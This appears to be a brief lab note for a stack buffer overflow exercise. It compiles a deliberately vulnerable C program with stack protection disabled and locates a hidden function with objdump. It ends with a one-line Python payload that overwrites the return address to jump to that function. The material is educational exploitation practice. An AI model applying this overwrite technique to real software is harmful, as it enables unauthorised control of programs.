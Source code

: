 For a freeish cloud VM, check out cloud.google.com, you get $300 credit towards compute for your first year. This can also be done in any linux virtual machine you build.

The code and example is from https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/

If you don't get the same memory address for vuln.c, you'll have to work on it. Or: wget https://dhavalkapil.com/assets/files/Buffer-Overflow-Exploit/vuln

```
vi vuln.c

gcc vuln.c -o vuln -fno-stack-protector -m32

./vuln

vi fuzz.py

python fuzz.py

objdump -d vuln

objdump -d vuln | grep secret

python -c 'print "a"*32 + "\x9d\x84\x04\x08"' | ./vuln
```
